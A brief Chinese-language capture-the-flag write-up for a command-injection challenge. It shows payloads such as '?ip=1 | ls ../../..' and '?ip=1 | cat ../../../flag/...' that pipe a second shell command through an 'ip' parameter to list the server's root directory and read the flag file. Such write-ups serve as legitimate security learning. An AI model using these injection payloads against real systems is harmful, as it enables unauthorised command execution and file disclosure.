 先用grep -ra "0ops*" 发现没有输出值，感觉grep这个指令可能被屏蔽了（要不太简单了）

后面又用find \ -name "flag*"发现返回一堆设备文件的flag（可能是输出行数有限制？，把关键的东西给删了？）

然后去搜索文件 ？ip=1 |  ls ../../..

输出以下目录：bin boot dev etc flag home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var

发现flag文件夹，然后输入？ip=1 | ls ../../../flag 发现文件80e20712e0fccd9dc5d6c1f7932efc57

在输入ip=1 | cat ../../../flag/80e20712e0fccd9dc5d6c1f7932efc57即可

查看flag